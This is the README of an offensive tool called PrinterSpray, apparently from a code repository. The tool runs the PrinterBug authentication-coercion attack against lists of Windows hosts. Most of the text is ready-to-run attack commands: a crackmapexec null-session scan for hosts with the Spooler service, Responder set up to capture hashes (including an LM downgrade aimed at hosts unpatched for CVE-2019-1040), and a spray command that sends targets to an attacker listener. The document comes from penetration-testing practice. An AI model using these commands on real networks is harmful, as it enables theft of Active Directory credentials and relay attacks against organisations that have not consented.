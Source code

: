 # PrinterSpray

Wrapper of https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py to be used with a list of IPs. 

Discover potentual targets

```
crackmapexec smb [subnet] -u '' -p '' -M spooler | grep -a "Spooler service enabled" | awk -F " " '{print$2}' > spooler.txt
```

Have responder running

```
sudo responder -I [interface]
```
Also try with --lm to discover hosts that are not patched to CVE-2019-1040

```
sudo responder -I [interface] --lm
```

Run against hosts that have the spooler service enabled

```
./printerspray.sh -t [targets file] -d [AD domain] -u [username] -p [pwd] -l [listenerIP]
```

Example:

```
./printerspray.sh -t ./spooler.txt -d 'labdomain.local' -u 'ADuser1' -p 'pwd' -l 192.168.1.23
```
